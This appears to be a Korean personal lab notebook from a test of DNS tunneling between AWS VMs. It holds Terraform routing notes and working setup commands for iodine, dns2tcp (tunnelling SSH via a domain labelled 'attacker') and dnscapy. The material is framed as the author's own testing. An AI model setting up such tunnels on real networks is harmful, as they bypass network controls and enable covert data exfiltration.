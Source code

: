 ```yaml
---
date: 2024-06-14
---
```

## TTD

- [x] VM 생성
	- domain 등록은 안함; `/etc/host` 로 조지자
- [x] L3 (ICMP ping) 확인
- [ ] ncat 둘 다 띄워서 통신 되나 확인
	- [ ] 853 port 확인
	- [ ] 853 port 가 아닌 거 열어서 확인
- [ ] DNS tunnel 확인
	- [Iodine](https://github.com/yarrick/iodine?tab=readme-ov-file#quickstart)

## 삽질

- subnet 에 포함되는 route table entry 를 terraform 으로 추가하는것은 안됨
- ec2 에 eip 추가
	- https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/eip#multiple-eips-associated-with-a-single-network-interface
- ip_forward
	- https://unix.stackexchange.com/a/449474
- source_dest_check 를 false 로 해야 함
	- https://serverfault.com/a/810509
	- https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/network_interface

## Iodine

```bash
wget -qO- https://code.kryo.se/iodine/iodine-0.8.0.tar.gz | tar -xz \
  && cd iodine-0.8.0 \
  && make
```

```bash
sudo ./iodine-0.8.0/bin/iodined -f 10.0.0.1 -P toor ztmb.io
```

```bash
sudo ./iodine-0.8.0/bin/iodine -f -r 172.16.20.10 ztmb.io -P toor
```

- Ubuntu 에서 설치시 추가적으로 필요한 것

```bash
sudo apt-get install -y gcc make pkg-config libz-dev ifconfig
```

- golang

```bash
wget -qO- https://go.dev/dl/go1.22.4.linux-amd64.tar.gz | sudo tar -xzC /usr/local
  export PATH=$PATH:/usr/local/go/bin
```


- `bot` conf - 이걸을 이용해 0x20 키고 끌 수 있음
- 키기

```bash
sudo iptables -t nat -A OUTPUT -d 172.16.20.10 -p udp --dport 53 -j DNAT --to-destination 127.0.0.1:20053
```

- 끄기

```bash
sudo iptables -t nat -F
```

## dns2tcp 

- 참고
	- https://www.aldeid.com/wiki/Dns2tcp
- install

```bash
wget -qO- https://github.com/alex-sector/dns2tcp/archive/refs/tags/v0.5.2.tar.gz | tar -xzv
cd dns2tcp-0.5.2
./configure
make
```

- server

```bash
sudo mkdir -pv /root/dns2tcp
cat <<END > .dns2tcpdrc
listen = 0.0.0.0
port = 53
user=ec2-user
chroot = /root/dns2tcp
pid_file = /var/run/dns2tcp.pid
domain = attacker.ztmb.io
key = secretkey
resources = ssh:127.0.0.1:22
END
```

```bash
sudo ./server/dns2tcpd -f .dns2tcpdrc -F -d3
```

- client

```bash
cat <<END > .dns2tcprc
domain = attacker.ztmb.io
resource = ssh
local_port = 2139
key = secretkey
END
```

```bash
./client/dns2tcpc -f .dns2tcprc
```

## dnscapy

```bash
sudo apt-get install -y unzip python3 python3-pip python3-scapy
```

```bash
pip install scapy
```

```bash
wget https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dnscapy/dnscapy-0-99b.zip
unzip dnscapy-0-99b.zip
```